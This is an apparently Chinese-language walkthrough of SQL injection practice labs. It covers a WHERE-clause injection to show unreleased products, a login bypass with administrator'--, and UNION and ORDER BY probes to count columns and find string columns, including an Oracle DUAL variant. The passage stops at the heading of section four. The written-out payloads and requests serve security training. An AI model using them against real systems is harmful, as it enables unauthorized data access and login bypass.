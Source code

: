 ## 1、where子句中的sql注入漏洞允许检索隐藏数据

给的提示：

![image-20250327214319103](assets/image-20250327214319103.png)

当选择一个商品类别，抓包显示：

![image-20250327214615189](assets/image-20250327214615189.png)

他执行的语句是：select * from products where category = 'Pets' and released = 1

所以我们可以构造payload：

Pets'+or+1=1-- 

拼接完就是：

select * from products where category = 'Pets'+or+1=1-- and released = 1

![image-20250327214957717](assets/image-20250327214957717.png)

这样就查出了没有发布的商品



## 2、允许绕过登录的 SQL 注入漏洞

登录框输入administrator‘--

单引号用来闭合 -- 用来注释后面的语句



## 3、SQL 注入 UNION 攻击，确定查询返回的列数

这一关规定是通过union来确定返回的列数，也就是确定products表有几列

因为union前后必须是一致的，意思是说：

`select username, password from user union select NULL, NULL` 语法是正确的

而 `select username, password from user union select NULL, NULL, NULL` 是不正确的

也就是说，union前面的语句搜的是两列，那么union后面的语句也要搜两列 

**为什么用NULL？** 

​	因为两个select语句对应列所返回的数据类型必须是相同或者是兼容的，`NULL` 可转换为每种常见数据类型，因此当列数正确时，它可以最大限度地提高有效载荷成功的机会。



所以抓一个包，尝试一下：

`GET /filter?category=Pets'+union+select+NULL,+NULL,+NULL-- HTTP/2`

正确，说明是3列



跳出本关的规则，除了使用UNION来判断列数，还可以用order by

`/filter?category=Pets'+order+by+4--` 报错

`/filter?category=Pets'+order+by+3--` 正确

说明是3列



该靶场提示：在oracle中，每个 `SELECT` 查询都必须使用 `FROM` 关键字并指定一个有效的表。Oracle 上有一个名为 `dual` 内置表可用于此目的。因此，Oracle 上的注入查询需要如下所示：

`' UNION SELECT NULL FROM DUAL--`



因为union前后的查询结果对应列的数据类型必须相同或兼容，因此可以利用这个来判断哪一列是字符串（有价值的数据一般以字符串格式存储）

例如：

```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```



## 4、SQL 注入 UNION 攻击，查找包含文本的列
